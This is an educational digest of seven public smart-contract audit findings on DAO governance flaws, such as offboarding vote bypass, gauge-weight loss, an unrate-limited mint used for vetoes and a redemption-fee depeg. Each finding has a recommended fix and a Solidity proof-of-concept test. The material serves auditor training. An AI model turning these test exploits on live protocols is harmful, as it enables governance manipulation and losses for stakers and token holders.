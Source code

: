 # ETAAcademy-Adudit: 1. DAO

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DAO</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>Governance</th>
          <td>DAO</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] Re-triggering the canOffboard[term] flag to bypass the DAO vote of the lending term offboarding mechanism

### Offboarding lending term

- Summary: The vulnerability allows an attacker to repeatedly trigger offboarding a re-onboarding lending term, bypassing the DAO vote offboarding mechanism. Even after the term is offboarded and cleaned up, the attacker can trigger another offboarding vote before the poll ends, to re-trigger the `canOffboard[term]` flag. This enables the attacker to force offboarding of the re-onboarded term at any time, overriding the DAO vote.

- Impact & Recommendation: The attack not only manipulates offboarding but also triggers silent auctions for existing loans. If a loan fails to attract bids, causing a loss, stakers who voted for the term via the SurplusGuildMinter contract are slashed, impacting both borrowers and stakers significantly. Prevent the offboarding poll from reactivating the `canOffboard[term]` flag after the lending term cleanup, or end the poll if the term has been cleaned up.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-06-re-triggering-the-canoffboardterm-flag-to-bypass-the-dao-vote-of-the-lending-term-offboarding-mechanism) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testPoCBreakingDaoVoteOffboarding() public {
        // Prepare for Attacker
        address Attacker = address(1);
        guild.mint(Attacker, 1);
        vm.prank(Attacker);
        guild.delegate(Attacker);
        // Prepare for Bob
        guild.mint(bob, _QUORUM);
        vm.startPrank(bob);
        guild.delegate(bob);
        uint256 POLL_DURATION_BLOCKS = offboarder.POLL_DURATION_BLOCKS();
        uint256 snapshotBlock = block.number;
        uint256 OFFBOARDING_POLL_END_BLOCK = snapshotBlock + POLL_DURATION_BLOCKS;
        // Bob proposes an offboarding of the term
        assertEq(guild.isGauge(address(term)), true);
        offboarder.proposeOffboard(address(term));
        // Next 1 day
        vm.roll(block.number + 6646); // 1 day
        vm.warp(block.timestamp + 6646 * 13);
        assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);
        vm.expectRevert("LendingTermOffboarding: quorum not met");
        offboarder.cleanup(address(term));
        // Bob votes for offboarding the term and executes the offboarding (he has a sufficient voting weight)
        assertEq(guild.isGauge(address(term)), true);
        assertEq(offboarder.canOffboard(address(term)), false);
        offboarder.supportOffboard(snapshotBlock, address(term));
        offboarder.offboard(address(term));
        assertEq(guild.isGauge(address(term)), false);
        assertEq(offboarder.canOffboard(address(term)), true);
        // Cannot clean up because loans are active
        vm.expectRevert("LendingTermOffboarding: not all loans closed");
        offboarder.cleanup(address(term));
        // Next 1 day
        vm.roll(block.number + 6646); // 1 day
        vm.warp(block.timestamp + 6646 * 13);
        assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);
        // Get enough CREDIT to pack back interests
        vm.stopPrank();
        uint256 debt = term.getLoanDebt(aliceLoanId);
        credit.mint(alice, debt - aliceLoanSize);
        // Alice closes loan
        vm.startPrank(alice);
        credit.approve(address(term), debt);
        term.repay(aliceLoanId);
        vm.stopPrank();
        // Clean up the term
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
        offboarder.cleanup(address(term));
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        assertEq(offboarder.canOffboard(address(term)), false); // The canOffboard[term] flag has been reset
        assertEq(core.hasRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term)), false);
        assertEq(core.hasRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term)), false);
        // Attacker votes for offboarding the term to re-trigger the canOffboard[term] flag again
        vm.startPrank(Attacker);
        assertEq(offboarder.canOffboard(address(term)), false);
        offboarder.supportOffboard(snapshotBlock, address(term));
        assertEq(offboarder.canOffboard(address(term)), true); // Attacker has re-triggered the canOffboard[term] flag
        vm.stopPrank();
        // Next 10 days
        // Offboarding poll expired
        vm.roll(block.number + 66460); // 10 days
        vm.warp(block.timestamp + 66460 * 13);
        assertGt(block.number, OFFBOARDING_POLL_END_BLOCK);
        // The term is re-onboarded
        assertEq(guild.isGauge(address(term)), false);
        guild.addGauge(1, address(term));
        assertEq(guild.isGauge(address(term)), true);
        // Next 30 days
        vm.roll(block.number + 199380); // 30 days
        vm.warp(block.timestamp + 199380 * 13);
        assertEq(guild.isGauge(address(term)), true);
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        // Attacker offboards the term by overriding the DAO vote offboarding mechanism
        vm.startPrank(Attacker);
        offboarder.offboard(address(term));
        assertEq(guild.isGauge(address(term)), false);
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
    }

  ```

  </details>

## 2. [Medium] The gauge status wasn’t checked before reducing the user’s gauge weight.

### Reduce weight to transfer loss

- Summary: In the event of any loss triggered by **`ProfitManager#notifyPnL()`**, all staked guild tokens on the lending term will be entirely slashed through **`GuildToken#notifyGaugeLoss()`**, with termSurplusBuffer[gauge] depleting and donating to surplusBuffer. Loss will first decrease from surplusBuffer, and if surplusBuffer is insufficient, the remaining loss will reduce the creditMultiplier for each credit token. A term can be offboarded if deemed unsafe, pausing the redemption function of the corresponding SimplePSM. Once offboarded, potential losses are distributed to all credit token holders, as exiting in advance is not possible. However, guild holders can reduce their weight on the offboarded term, transferring potential losses to other holders.

- Impact & Recommendation: Preventing gauge weight deprecation upon offboarding a lending term is advisable, particularly with surplus GUILD minter, as it ensures protection for passive lenders by retaining surplus buffer capital that may otherwise escape.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-17-the-gauge-status-wasnt-checked-before-reducing-the-users-gauge-weight) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testOffboardTermAndDecrementGauge() public {
        //@audit-info term2 is deployed
        LendingTerm term2 = LendingTerm(Clones.clone(address(new LendingTerm())));
        term2.initialize(
            address(core),
            LendingTerm.LendingTermReferences({
                profitManager: address(profitManager),
                guildToken: address(guild),
                auctionHouse: address(auctionHouse),
                creditMinter: address(rlcm),
                creditToken: address(credit)
            }),
            LendingTerm.LendingTermParams({
                collateralToken: address(collateral),
                maxDebtPerCollateralToken: _CREDIT_PER_COLLATERAL_TOKEN,
                interestRate: _INTEREST_RATE,
                maxDelayBetweenPartialRepay: 0,
                minPartialRepayPercent: 0,
                openingFee: 0,
                hardCap: _HARDCAP
            })
        );
        vm.startPrank(governor);
        core.grantRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term2));
        core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term2));
        vm.stopPrank();
        //@audit-info active term2, which has the same gauge type with term1
        guild.addGauge(1, address(term2));
        //@audit-info mint 2e18 guild token to carol
        guild.mint(carol, 2e18);
        vm.startPrank(carol);
        guild.incrementGauge(address(term), 1e18);
        guild.incrementGauge(address(term2), 1e18);
        vm.stopPrank();
        // prepare (1)
        guild.mint(bob, _QUORUM);
        vm.startPrank(bob);
        guild.delegate(bob);
        uint256 snapshotBlock = block.number;
        //@audit-info bob propose to offboard term
        offboarder.proposeOffboard(address(term));
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 13);
        //@audit-info term is able to be offboarded with enough votes.
        offboarder.supportOffboard(snapshotBlock, address(term));
        assertEq(offboarder.polls(snapshotBlock, address(term)), _QUORUM + 1);
        assertEq(offboarder.canOffboard(address(term)), true);
        assertEq(guild.isGauge(address(term)), true);
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        offboarder.offboard(address(term));
        //@audit-info term is offboarded
        assertEq(guild.isGauge(address(term)), false);
        //@audit-info the redemption function is paused, no one can redeem their credit token
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
        vm.stopPrank();
        assertEq(guild.getUserGaugeWeight(carol, address(term)), 1e18);
        vm.prank(carol);
        //@audit-info however, carol can decrement their gauge weight on term
        guild.decrementGauge(address(term), 1e18);
        assertEq(guild.getUserGaugeWeight(carol, address(term)), 0);
    }

  ```

  </details>

## 3. [Medium] RateLimitedMinter isn’t used by SimplePSM resulting in Governance attacks

### Use rate limiter to mint or burn token

- Summary: ProfitManager and SimplePSM contracts don't use rate limiter so that the `RateLimitedMinter` buffer is never replenished. Attacker mints gUSDC tokens in the PSM contract without rate limiter, then using them to take malicious voting action in GuildVetoGovernor and cancel actions in the queue quickly without any consequences, because `ProfitManager.creditMultiplier` doesn’t decline.

- Impact & Recommendation: Use rate limiter across all contracts in the protocol when minting or burning Credit and Guild tokens.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-21-ratelimitedminter-isnt-used-by-simplepsm-resulting-in-governance-attacks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {MockERC20} from "@test/mock/MockERC20.sol";
    import {SimplePSM} from "@src/loan/SimplePSM.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {IGovernor} from "@openzeppelin/contracts/governance/IGovernor.sol";
    import {GuildVetoGovernor} from "@src/governance/GuildVetoGovernor.sol";
    import {GuildTimelockController} from "@src/governance/GuildTimelockController.sol";
    import "@forge-std/console.sol";
    contract Poc4 is Test {
        Core private core;
        ProfitManager private profitManager;
        CreditToken credit;
        GuildToken guild;
        MockERC20 private pegToken;
        SimplePSM private psm;
        uint256 private constant _TIMELOCK_MIN_DELAY = 12345;
        GuildTimelockController private timelock;
        GuildVetoGovernor private vetoGovernor;
        uint256 __lastCallValue = 0;
        // From deployment script!

        uint256 private constant _VETO_QUORUM = 5_000_000e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManager = new ProfitManager(address(core));
            credit = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManager));
            pegToken = new MockERC20(); // USDC
            pegToken.setDecimals(6);
            psm = new SimplePSM(
                address(core),
                address(profitManager),
                address(credit),
                address(pegToken)
            );
            timelock = new GuildTimelockController(
                address(core),
                _TIMELOCK_MIN_DELAY
            );
            // VetoGovernor for gUSDC
            vetoGovernor = new GuildVetoGovernor(
                address(core),
                address(timelock),
                address(credit),
                _VETO_QUORUM // 5Mil gUSDC
            );
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.CREDIT_MINTER, address(psm));
            core.grantRole(CoreRoles.CREDIT_GOVERNANCE_PARAMETERS, address(this));
            core.createRole(CoreRoles.TIMELOCK_EXECUTOR, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_EXECUTOR, address(0));
            core.createRole(CoreRoles.TIMELOCK_CANCELLER, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_CANCELLER, address(vetoGovernor));
            core.createRole(CoreRoles.TIMELOCK_PROPOSER, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_PROPOSER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            credit.setMaxDelegates(1);
        }
        function __dummyCall(uint256 val) external {
            __lastCallValue = val;
        }
        function _queueDummyTimelockAction(
            uint256 number
        ) internal returns (bytes32) {
            address[] memory targets = new address[](1);
            targets[0] = address(this);
            uint256[] memory values = new uint256[](1);
            bytes[] memory payloads = new bytes[](1);
            payloads[0] = abi.encodeWithSelector(
                Poc4.__dummyCall.selector,
                number
            );
            bytes32 predecessor = bytes32(0);
            bytes32 salt = keccak256(bytes("dummy call"));
            timelock.scheduleBatch(
                targets,
                values,
                payloads,
                predecessor,
                salt,
                _TIMELOCK_MIN_DELAY
            );
            bytes32 timelockId = timelock.hashOperationBatch(
                targets,
                values,
                payloads,
                0,
                salt
            );
            return timelockId;
        }
        function test_poc() public {
            address Alice = address(100);
            // Schedule an action in the timelock, Alice will veto it.
            bytes32 timelockId = _queueDummyTimelockAction(12345);
            // Afluent Alice has 6Mil of USDC and mints gUSDC in PSM
            // PSM isn't rate-limited (there is no cap)!
            pegToken.mint(Alice, 6_000_000e6);
            vm.startPrank(Alice);
            pegToken.approve(address(psm), 6_000_000e6);
            psm.mint(Alice, 6_000_000e6);

            // Alice has enough voting power!
            require(credit.balanceOf(Alice) > vetoGovernor.quorum(0));
            credit.delegate(Alice);
            // Alice creates a Veto proposal
            uint256 proposalId = vetoGovernor.createVeto(timelockId);
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 10);
            // Alice cast a vote against
            vetoGovernor.castVote(proposalId, uint8(GuildVetoGovernor.VoteType.Against));
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 10);
            (
                uint256 againstVotes,
                uint256 forVotes,
                uint256 abstainVotes
            ) = vetoGovernor.proposalVotes(
                proposalId
            );
            // There is a Quorum, Alice can execute Veto proposal
            require(againstVotes > vetoGovernor.quorum(0));
            vetoGovernor.executeVeto(timelockId);
            vm.stopPrank();
        }
    }

  ```

  </details>

## 4. [High] If a gauge that a user has voted for gets removed, their voting power allocated for that gauge will be lost

### Vote requirement for gauge

- Summary: The GaugeController, based on Curve DAO's Vyper implementation, allows users to vote for incentive allocation using the vote_for_gauge_weights() function. However, governance can remove gauges, preventing further voting but leaving existing users' voting power intact. Specifically, a new require statement has been added to check if the gauge type is greater than 0, but this fix doesn't address the issue effectively because the gauge type for a nonexistent gauge is always 0.

- Impact & Recommendation: Remove the requirement checking for nonzero gauge types at the specified address to allow users to reclaim their votes from removed gauges.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-neobase#h-01-if-a-gauge-that-a-user-has-voted-for-gets-removed-their-voting-power-allocated-for-that-gauge-will-be-lost) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
      function testLostVotingPower() public {
        // prepare
        uint256 v = 10 ether;
        vm.deal(gov, v);
        vm.startPrank(gov);
        ve.createLock{value: v}(v);
        // add gauges
        gc.add_gauge(gauge1, 0);
        gc.add_type("", 0);
        gc.add_gauge(gauge2, 1);
        // all-in on gauge1
        gc.vote_for_gauge_weights(gauge1, 10000);
        // governance removes gauge1
        gc.remove_gauge_weight(gauge1);
        gc.remove_gauge(gauge1);
        // cannot vote for gauge2
        vm.expectRevert("Used too much power");
        gc.vote_for_gauge_weights(gauge2, 10000);
        // cannot remove vote for gauge1
        vm.expectRevert("Gauge not added"); // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge1, 0);
        // cannot vote for gauge2 (to demonstrate again that voting power is not removed)
        vm.expectRevert("Used too much power");  // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge2, 10000);
    }

    function testLostVotingPower() public {
        // prepare
        uint256 v = 10 ether;
        vm.deal(gov, v);
        vm.startPrank(gov);
        ve.createLock{value: v}(v);
        // add gauges
        gc.add_gauge(gauge1, 0);
        gc.change_gauge_weight(gauge1, 100);
        gc.add_type("", 100);
        gc.add_gauge(gauge2, 1);
        gc.change_gauge_weight(gauge2, 100);
        // all-in on gauge1
        gc.vote_for_gauge_weights(gauge1, 10000);
        // governance removes gauge1
        gc.remove_gauge_weight(gauge1);
        gc.remove_gauge(gauge1);
        // cannot vote for gauge2
        vm.expectRevert("Used too much power");
        gc.vote_for_gauge_weights(gauge2, 10000);
        // cannot remove vote for gauge1
        vm.expectRevert("Gauge not added"); // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge1, 0);
        // cannot vote for gauge2 (to demonstrate again that voting power is not removed)
        vm.expectRevert("Used too much power");  // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge2, 10000);
    }


  ```

  </details>

## 5. [Medium] Issue from previous audit still present: Gauge can have bigger weight than was intended by protocol

### Change gauge weight

- Summary: Users can exploit the "change_gauge_weight" function by monitoring the mempool for calls and front-running them to remove their voting power before the change occurs. This allows them to manipulate the gauge's weight, increasing it beyond the intended value set by governance.

- Impact & Recommendation: Remove `change_gauge_weight` function.
  <br> 🐬: [Source](hhttps://code4rena.com/reports/2024-03-neobase#m-03-issue-from-previous-audit-still-present-gauge-can-have-bigger-weight-than-was-intended-by-protocol) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
      /// @notice Allows governance to overwrite gauge weights
    /// @param _gauge Gauge address
    /// @param _weight New weight
    function change_gauge_weight(address _gauge, uint256 _weight) public onlyGovernance {
        _change_gauge_weight(_gauge, _weight);
    }

  ```

  </details>

## 6.[Medium] Missing disapproval check in LockManager.sol::approveUSDPrice allows simultaneous approval and disapproval of a price proposal

### Disapproval check

- Summary: Due to a missing disapproval check, a price feed can both disapprove and then approve a newly proposed price, which contradicts the intended functionality of voting either for approval or disapproval.

- Impact & Recommendation: To mitigate this, add a check to ensure a price feed has not already disapproved a proposal before allowing approval, and revert with a custom error if this condition is met.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-05-munchables#m-01-missing-disapproval-check-in-lockmanagersolapproveusdprice-allows-simultaneous-approval-and-disapproval-of-a-price-proposal) & [Report](https://code4rena.com/reports/2024-05-munchables)

<details><summary>POC</summary>

```solidity
    function approveUSDPrice(
        uint256 _price
    )
        external
        onlyOneOfRoles(
            [
                Role.PriceFeed_1,
                Role.PriceFeed_2,
                Role.PriceFeed_3,
                Role.PriceFeed_4,
                Role.PriceFeed_5
            ]
        )
    {
        if (usdUpdateProposal.proposer == address(0)) revert NoProposalError();
        if (usdUpdateProposal.proposer == msg.sender)
            revert ProposerCannotApproveError();
        if (usdUpdateProposal.approvals[msg.sender] == _usdProposalId)
            revert ProposalAlreadyApprovedError();
+       if (usdUpdateProposal.disapprovals[msg.sender] == _usdProposalId)
+           revert ProposalAlreadyDisapprovedError();
        if (usdUpdateProposal.proposedPrice != _price)
            revert ProposalPriceNotMatchedError();
        usdUpdateProposal.approvals[msg.sender] = _usdProposalId;
        usdUpdateProposal.approvalsCount++;
        if (usdUpdateProposal.approvalsCount >= APPROVE_THRESHOLD) {
            _execUSDPriceUpdate();
        }
        emit ApprovedUSDPrice(msg.sender);
    }

```

<details>

## 7.[High] A successfully disputed redemption proposal has still increased the redemption fee base rate; exploit to depeg dUSD

### Rate doesn't decrease when redemptions disputed

- Summary: The issue causing dUSD to depeg can be exploited due to a flaw in the redemption fee mechanism, where the base rate increases with proposed redemptions but doesn't decrease when disputed. Attackers can manipulate this by using different accounts to propose and dispute redemptions, maintaining high fees and disincentivizing necessary redemptions to restore the peg. This exploit can lead to persistent depegging, enabling market manipulation where attackers buy cheap dUSD and later redeem it for profit.

- Impact & Recommendation: To mitigate this, the base rate should not be affected by disputed proposals, the fee structure should be re-evaluated, and sufficiently large redemption proposals should be required to prevent manipulation.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-dittoeth#h-01-a-successfully-disputed-redemption-proposal-has-still-increased-the-redemption-fee-base-rate-exploit-to-depeg-dusd) & [Report](https://code4rena.com/reports/2024-03-dittoeth)

<details><summary>POC</summary>

```solidity

    uint88 redemptionFee = calculateRedemptionFee(asset, p.totalColRedeemed, p.totalAmountProposed);

```

</details>
